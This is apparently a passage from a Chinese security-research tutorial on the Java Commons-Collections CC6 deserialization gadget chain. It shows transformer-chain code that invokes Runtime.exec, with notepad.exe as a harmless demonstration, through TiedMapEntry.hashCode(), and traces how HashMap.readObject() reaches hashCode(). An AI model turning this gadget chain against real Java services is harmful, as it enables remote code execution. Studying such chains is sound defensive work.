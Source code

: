 接下来就找哪个方法调用了`getValue()`，同名类下的`hashCode()`调用了`getValue()`

![image-20250926142631749](./Commons-Collections%E7%AF%8703-CC6%E9%93%BE/image-20250926142631749.png)

将代码简单改一下改为调用`hashCode`函数也可以命令执行

```java
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
                HashMap<Object,Object> hashmap = new HashMap<>();
        Map decoratemap = LazyMap.decorate(hashmap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,"key");
        tiedMapEntry.hashCode();

```

# 最终构造

## put方法提前运行hash函数

接下来就要找哪个函数调用的`hashCode()`，这就回到的`URLDNS`链

`HashMap.hash()`调用了`hashCode()`->`HashMap.readObject()`调用了`hash()`

![image-20250926143253916](./Commons-Collections%E7%AF%8703-CC6%E9%93%BE/image-20250926143253916.png)
